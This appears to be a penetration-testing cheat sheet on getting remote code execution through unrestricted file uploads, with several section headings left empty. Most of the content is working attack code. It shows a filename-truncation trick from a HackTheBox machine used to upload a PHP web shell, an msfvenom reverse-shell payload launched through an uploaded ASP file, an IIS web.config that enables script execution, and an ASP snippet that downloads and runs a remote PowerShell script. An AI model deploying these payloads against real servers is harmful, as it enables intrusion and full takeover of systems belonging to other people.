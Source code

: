 ```yaml
---
description: Different ways to upload files and get RCE.
---
```


# Unrestricted File Upload

## Introduction

## Identifies restrictions

### Extension

Shortening the size (falafel.htb):

Linux maximum 255 chars

```
touch $(python3 -c "print('A'*251+'.png')")
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
```

Search the correct offset and upload again:

```
echo '<?php system($_GET["cmd"]);?>' > $(python3 -c 'print("A"*(236-4)+".php.png")')
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'
```

### Size

### Name

### Magic Number

### Content

## ASP

First we need to generate the reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o rev.exe
```

Finally upload the `rev.asp` and `rev.exe` files to get a connection shell back.

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\rev.exe",0,True)
%>
```

## .config RCE (IIS)

Uploading a `web.config` file to execute asp commands.

```
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Response.write(1+1)
%>
```

If this works we can execute a reverse shell.

```
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<ip-addr>/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```
